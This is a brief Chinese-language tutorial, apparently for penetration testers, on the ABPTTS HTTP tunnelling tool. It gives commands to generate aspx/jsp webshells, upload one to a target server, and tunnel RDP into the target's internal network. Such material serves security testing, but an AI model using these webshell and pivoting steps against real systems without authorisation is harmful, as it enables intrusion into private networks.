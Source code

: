 ## 介绍

Abptts是一款基于python2.7的http加密隧道工具，Abptts能做的很多：

1. 通过http加密隧道转发至目标内网下指定的单个TCP端口

2. 通过http加密隧道同时转发至目标内网下的多台机器上的多个tcp端口

3. 把ssh隧道包裹在http加密隧道中传递，对目标二级内网进行穿透

#### 缺点：不支持PHP

## 使用流程

```
git clone https://github.com/nccgroup/ABPTTS.git
pip install pycrypto
pip install httplib2
cd ABPTTS
python abpttsfactory.py ‐o webshell

```

在webshell目录里有aspx、jsp等脚本

将对应格式的脚本上传至测试机

```
python abpttsclient.py -c webshell\config.txt -u "http://www.0-sec.org/abptts.aspx" -f 127.0.0.1:1112/127.0.0.1:3389
mstsc 127.0.0.1:1112

```

设置本地代理 访问内网

